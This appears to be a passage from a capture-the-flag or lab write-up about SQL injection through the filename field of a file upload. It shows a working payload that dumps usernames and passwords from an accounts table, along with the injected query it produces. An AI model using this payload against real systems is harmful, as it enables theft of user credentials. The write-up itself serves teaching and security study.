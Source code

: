     -----------------------------81606610532534972821053179055
    Content-Disposition: form-data; name="userData"; filename="accounts', '0', '', (SELECT group_concat(concat(username,':',password) SEPARATOR '<br>') from accounts));-- -"
    Content-Type: text/plain

    test
    -----------------------------81606610532534972821053179055--



That builds the SQL string to:



    INSERT INTO files(name, size, data, user) VALUES('accounts', '0', '', (SELECT group_concat(concat(username,':',password) SEPARATOR '<br>') from accounts));-- -', '4', 'test', 'oxdff')



This results in the following on the webpage when I refresh, leaking the
username and password of each user in the database:

![](/img/image-20220112124035475.png)





